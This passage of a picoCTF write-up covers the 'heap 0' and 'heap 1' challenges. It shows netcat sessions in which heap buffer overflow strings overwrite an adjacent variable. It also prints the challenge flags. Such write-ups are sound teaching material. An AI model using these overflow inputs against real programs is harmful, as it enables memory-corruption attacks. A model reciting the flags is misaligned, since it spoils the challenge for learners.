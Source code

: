 ```
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{my_first_heap_overflow_4fa6dd49}
```

## heap 1
Flag: `picoCTF{starting_to_get_the_hang_79ee3270}`

Can you control your overflow?

```
$ nc tethys.picoctf.net 56995

Welcome to heap1!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data
+-------------+----------------+
[*]   0x57bf98ca92b0  ->   pico
+-------------+----------------+
[*]   0x57bf98ca92d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaapico

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
4Heap State:
+-------------+----------------+
```
